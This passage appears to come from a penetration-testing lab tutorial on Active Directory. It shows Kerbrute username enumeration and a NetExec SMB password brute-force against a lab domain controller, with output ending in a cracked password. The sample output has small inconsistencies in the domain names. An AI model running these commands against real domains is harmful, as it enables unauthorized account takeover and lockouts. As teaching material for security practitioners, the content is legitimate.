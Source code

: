 ```shell-session
$ ./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 09:17:10 >  Using KDC(s):
2025/04/25 09:17:10 >   10.129.201.57:88

2025/04/25 09:17:11 >  [+] VALID USERNAME:       bwilliamson@inlanefreight.local
<SNIP>
```

### **Launching a brute-force attack with NetExec**

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch a brute-force attack against the target domain controller using a tool such as NetExec. We can use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller. Here is the command to do so:

```shell-session
$ netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

In this example, NetExec is using SMB to attempt to logon as user (`-u`) `bwilliamson` using a password (`-p`) list containing a list of commonly used passwords (`/usr/share/wordlists/fasttrack.txt`). If the admins configured an account lockout policy, this attack could lock out the account that we are targeting. At the time of this writing (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.
